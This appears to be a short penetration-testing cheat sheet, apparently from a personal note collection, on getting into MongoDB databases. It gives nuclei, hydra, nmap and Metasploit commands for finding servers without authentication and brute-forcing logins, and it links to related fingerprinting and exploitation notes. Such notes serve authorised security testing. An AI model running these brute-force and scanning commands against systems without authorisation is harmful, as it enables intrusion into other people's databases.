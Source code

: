 # MongoDB

## 01 - Null Authentication

```
$ nuclei -l ip_targets.txt -t ~/nuclei-templates -id mongodb-unauth
```

## 02 - Bruteforce

### 2.1 - Hydra

```
$ hydra -L users.lst -P passwords.lst <IP> mongodb
```

### 2.2 - Network Mapper

```
$ nmap -p 27017,27018 -Pn -n --script mongodb-brute --script-args userdb=users.lst,passdb=passwords.lst <IP>
```

## Metasploit

```
msf > use auxiliary/scanner/mongodb/mongodb_login
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/Databases/NoSQL/MongoDB|Active Fingerprinting: MongoDB]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Databases/SQL/PostgreSQL/Manual|Remote Services Exploitation: MongoDB]]